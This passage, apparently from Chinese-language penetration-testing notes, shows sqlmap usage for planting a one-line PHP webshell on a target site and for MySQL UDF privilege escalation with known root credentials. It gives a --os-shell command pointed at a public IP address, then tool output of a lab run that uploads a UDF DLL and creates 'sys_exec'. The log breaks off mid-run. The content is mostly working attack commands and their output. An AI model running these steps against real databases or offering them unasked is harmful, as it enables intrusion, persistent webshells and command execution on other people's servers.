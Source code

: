     | --file-write "/localwebshell"     --file-dest "网站的绝对路径/1.php"。 | 创建webshell.txt，内容为一句话木马，之后需要两个参数即本地文件地址和目标文件地址,用户必须具有最高权限 |
    | **--roles**                                                  | **列出数据库管理员权限**                                     |

- 知道数据库root账号密码之后，udf提权：

    - ```cmd
        python sqlmap.py -d "mysql://root:123456@119.90.126.9:3306/dedecms" --os-shell 
        
        
        (base) PS D:\pentest_tool\3.web渗透\sql\sqlmap> python .\sqlmap.py -d "mysql://root:123456@172.27.208.1:3306/jsh_erp" --os-shell
                ___
               __H__
         ___ ___[']_____ ___ ___  {1.6.8.2#dev}
        |_ -| . [)]     | .'| . |
        |___|_  [(]_|_|_|__,|  _|
              |_|V...       |_|   https://sqlmap.org
        
        [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
        
        [*] starting @ 11:41:19 /2022-09-23/
        
        [11:41:19] [INFO] connection to MySQL server '172.27.208.1:3306' established
        [11:41:19] [INFO] testing MySQL
        [11:41:19] [INFO] confirming MySQL
        [11:41:19] [INFO] the back-end DBMS is MySQL
        [11:41:19] [WARNING] (remote) ProgrammingError: (MySQLdb.ProgrammingError) not enough arguments for format string
        [11:41:19] [WARNING] (remote) ProgrammingError: (MySQLdb.ProgrammingError) not enough arguments for format string
        [11:41:19] [WARNING] (remote) ProgrammingError: (MySQLdb.ProgrammingError) not enough arguments for format string
        [11:41:19] [WARNING] (remote) ProgrammingError: (MySQLdb.ProgrammingError) not enough arguments for format string
        [11:41:19] [WARNING] (remote) ProgrammingError: (MySQLdb.ProgrammingError) not enough arguments for format string
        back-end DBMS: MySQL >= 5.0.0
        [11:41:19] [INFO] fingerprinting the back-end DBMS operating system
        [11:41:19] [INFO] the back-end DBMS operating system is Windows
        [11:41:19] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1051, "Unknown table 'jsh_erp.sqlmapfile'")
        [11:41:19] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1051, "Unknown table 'jsh_erp.sqlmapfilehex'")
        [11:41:19] [INFO] testing if current user is DBA
        [11:41:19] [INFO] fetching current user
        what is the back-end database management system architecture?
        [1] 32-bit (default)
        [2] 64-bit
        > 2
        [11:41:26] [INFO] checking if UDF 'sys_exec' already exist
        [11:41:26] [INFO] checking if UDF 'sys_eval' already exist
        [11:41:26] [INFO] detecting back-end DBMS version from its banner
        [11:41:26] [INFO] retrieving MySQL plugin directory absolute path
        [11:41:26] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1051, "Unknown table 'jsh_erp.sqlmapfile'")
        [11:41:27] [INFO] the local file 'C:\Users\lambo\AppData\Local\Temp\sqlmapjksern2t8548\lib_mysqludf_sysw9u2rt_d.dll' and the remote file 'D:/app/phpstudy_pro/Extensions/MySQL5.7.26/lib/plugin/libsjzdw.dll' have the same size (7168 B)
        [11:41:27] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1051, "Unknown table 'jsh_erp.sqlmapfilehex'")
        [11:41:27] [INFO] creating UDF 'sys_exec' from the binary UDF file